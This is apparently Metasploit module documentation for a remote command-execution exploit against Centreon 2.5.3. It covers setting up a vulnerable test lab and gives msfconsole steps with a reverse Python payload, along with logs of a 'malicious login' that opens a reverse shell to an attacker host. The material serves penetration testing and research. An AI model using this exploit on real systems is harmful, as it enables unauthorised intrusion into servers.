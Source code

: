 ## Vulnerable Application

  [Exploit-db](https://www.exploit-db.com/apps/bf269a17dd99215e6dc5d7755b521c21-centreon-2.5.3.tar.gz)
  Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

### Creating A Testing Environment

Creating a testing environment for this application contained many steps, so I figured I would document the process here.

  1. Create a fresh install of Ubuntu 16.04.  I used a LAMP install.
  2. Install php5.6 [askubuntu](http://askubuntu.com/questions/756181/installing-php-5-6-on-xenial-16-04)
  3. Enable php5.6 in Apache with ```a2enmod```, disable php7.0 with ```a2dismod```
  4. Restart apache with ```apache2ctl restart```
  5. Install [Nagios Plugins](https://assets.nagios.com/downloads/nagioscore/docs/nagioscore/3/en/quickstart-ubuntu.html) starting at step 6.  The plugins link is broken, utilize [nagios-plugins-2.1.1.tar.gz](http://www.nagios-plugins.org/download/nagios-plugins-2.1.1.tar.gz) instead
  6. Install [Centreon Engine](https://documentation.centreon.com/docs/centreon-engine/en/latest/installation/index.html)
  7. Install [Centreon Broker](https://documentation.centreon.com/docs/centreon-broker/en/2.11/installation/index.html#using-packages)
  8. Install [Centreon clib](https://documentation.centreon.com/docs/centreon-clib/en/latest/installation/index.html)
  9. Now install [Centreon Web](https://documentation.centreon.com/docs/centreon/en/2.5.x/installation/from_sources.html)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/centreon_useralias_exec```
  4. Do: ```set payload```
  5. Do: ```set rhost```
  6. Do: ```check```
  ```
  [+] Version Detected: 2.5.3
  [*] 192.168.2.85:80 The target appears to be vulnerable.
  ```
  7. Do: ```run```
  8. You should get a shell.
  ```
  [*] Started reverse TCP handler on 192.168.2.229:4444 
  [*] Sending malicious login
  [*] Command shell session 1 opened (192.168.2.229:4444 -> 192.168.2.85:36792) at 2016-06-11 20:44:57 -0400
  whoami
  www-data
  uname -a
  Linux centreon 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
  ```

## Scenarios

  Just a standard run.

  ```
  msf > use exploit/linux/http/centreon_useralias_exec
  msf exploit(centreon_useralias_exec) > set payload cmd/unix/reverse_python
  payload => cmd/unix/reverse_python
  msf exploit(centreon_useralias_exec) > set lhost 192.168.2.229
  lhost => 192.168.2.229
  msf exploit(centreon_useralias_exec) > set rhost 192.168.2.85
  rhost => 192.168.2.85
  msf exploit(centreon_useralias_exec) > set verbose true
  verbose => true
  msf exploit(centreon_useralias_exec) > check
  [+] Version Detected: 2.5.3
  [*] 192.168.2.85:80 The target appears to be vulnerable.
  msf exploit(centreon_useralias_exec) > exploit
  [*] Started reverse TCP handler on 192.168.2.229:4444 
  [*] Sending malicious login
  [*] Command shell session 1 opened (192.168.2.229:4444 -> 192.168.2.85:36792) at 2016-06-11 20:44:57 -0400
  whoami
  www-data
  uname -a
  Linux centreon 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
  ```
